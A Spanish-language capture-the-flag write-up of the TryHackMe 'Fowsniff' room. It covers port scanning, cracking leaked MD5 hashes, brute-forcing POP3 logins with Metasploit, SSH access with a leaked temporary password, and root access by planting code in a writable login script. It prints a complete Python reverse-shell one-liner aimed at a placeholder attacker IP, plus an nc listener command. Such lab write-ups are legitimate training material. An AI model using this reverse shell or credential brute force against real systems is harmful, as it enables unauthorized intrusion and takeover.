



# 🧪 TryHackMe - [Fowsniff]

## 🎯 Objective

Encontrar puertos abiertos, hacer busquedas online, crackear hashes, usar bruteforce, pop3 login y reverse shell

---

## 🧠 What I learned

- Busqueda de datos y reconocimiento
- Telnet basico 
- Busqueda y explotacion de vulnerabilidades
- Conceptos y tecnicas de reverse shell

---

## 🔍 Methodology

### 1. Recon

- Puertos
	He usado nmap para encontrar que servicios hay abiertos y en que versiones corre

- Directory Enumeration with Gobuster
	- He usado gobuster para encontrar directorios ocultos en la web http

### 2. Ennumeration
- Puertos 22,80,110 y 143 abiertos. Esto es una mina de oro, tengo SSH, HTTP, POP3 e IMAP abiertos.
- Varios directorios abiertos interesantes, entre ellos `security.txt`, el cual contenia dentro que la empresa fue 'pwn3d' por un usuario llamado 'B1gN1nj4'

### 3. Exploitation / Analysis

- Con una busqueda simple por Google con el nombre de la empresa encontre un repositorio de github del usuario 'B1gN1nj4' que leakeaba varios usuarios y sus hashes. Dice que son MD5 por lo que primero probe la manera mas sencilla, con una web. Me meti en `crackstation.net` y pegue todos los hashes. Consegui crackearlos todos menos uno.
- Con las contrañas en texto plano, cree un archivo `USERPASS_FILE`, con los todos los nombres de usuario y sus contraseñas separados por un espacio. Probe a usar bruteforce con metasploit al login de pop3 con la herramienta `scanner/pop3/pop3login`. Use esta herramienta para probar todos los usuarios de manera rapida, asi no tenia que ir probandolos uno a uno manualmente. Añadi todos los datos que me pide obligatorios (IP, Puerto etc), y el archivo que habia creado con los usuarios y contraseñas. En la mayoria me dio error, pero en un usuario tuve exito. El user `seina`.

### 4. Findings

- Con telnet, me meti al pop3 con este user, dentro tenia 2 correos.
- En un correo habla sobre que fueron hackeados, y dan una contraseña temporal de SSH.

  

- Hay otro correo, parece inofensivo pero da una pista clave. Es del user 'baksteen' y habla sobre cosas personales. Le pregunta que si ha visto el correo de Stone, el dice que ya lo mirara porque cree que no sera nada importante, pero si lo es, porque en ese correo dice que es importante que cambien la contraseña, y el al no verla, no la cambio. Es cancha libre para entrar por SSH con la contraseña temporal.

   

- Al entrar por SSH en el user 'baksten' se ejecuta un script para ver una especie de imagen creada con caracteres con el logo de la empresa, el cual tengo permisos de escritura sobre el (una vulnerabilidad grave). Aproveche este error para inyectar una revserse shell en Python y que se ejecutase automaticamente al hacer login. La reverse shell basicamente abre una conexion desde la victima hacia mi equipo, y redirige la entrada y salia de la shell, con lo que puedo ejecutar comandos de forma remota. Al ejecutarse el script, consegui acceso como root.

> La reverse shell fue ejecutada con este comando: 
>
> `python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(<Attaker_IP>,<Attaker_Port>);os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

> Luego con `nc -lvnp <Attacker_Port>` escucho la shell de vuelta.

## 🧠 Key takeaways

- Al principio me complique mucho en buscar en sitios raros, cuando lo mas importante estaba en Google.
- Me atasque un poco en el tema de entrar por ssh, tenia la contreseña pero no sabia que usuario probar. Me precipite al ver la contraseña y pensar que lo tenia todo, la respuesta que necesitaba estaba en ese segundo email.
- Con la reverse shell tambien me perdi un poco, no sabia como iba pero busque informacion y me di cuenta de que tenia permisos de escritura sobre un script que se ejecutaba automatico, lo tenia ya todo. Buen aprendizaje aqui.

## 🚀 Conclusion

- Buena room, me gusta como esta estructurada. Me enseño a mirar todos los datos que recogi para analizarlos y sacar lo mas importante, tambien aprendi que a veces es mas facil de lo que parece, tenemos los datos delante y no los vemos, o con una simple busqueda en Google tenemos mucha informacion.
- Tambien aprendi mucho sobre las reverse shell con esta room, como ejecutarlas y tambien incluso como proteger un sistema a ellas. Un script modificable por un usuario normal es un peligro importante.
